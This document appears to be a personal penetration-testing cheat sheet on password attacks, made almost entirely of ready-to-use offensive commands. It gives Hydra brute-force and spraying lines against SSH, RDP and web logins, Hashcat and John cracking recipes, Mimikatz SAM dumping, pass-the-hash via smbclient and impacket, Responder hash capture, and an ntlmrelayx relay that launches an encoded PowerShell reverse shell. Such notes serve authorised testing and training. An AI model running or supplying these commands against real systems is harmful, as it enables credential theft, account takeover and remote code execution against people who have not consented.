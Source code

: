# Password attacks

Graphics card cracking: 
- https://openbenchmarking.org/test/pts/hashcat-1.0.0
- https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

## NTLM

On Windows:
```
Get-LocalUser
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
Back on Kali:
```
hashcat -h | grep -i ntlm
hashcat -m ntlm.mode user.hash /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

```
smbclient \\\\IpVictim\\someshare -U Administrator --pw-nt-hash adminhash # smb> get file.txt
impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # nt authority\system
impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # host\administrator

```

## Net-NTLMv2

Kali
```
sudo responder -I ethX
```
Windows
```
smb \\IpAtt\fakeshare
```
then `hashcat`

## Relay Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim -c "powershell -enc base64reverseshell"
```
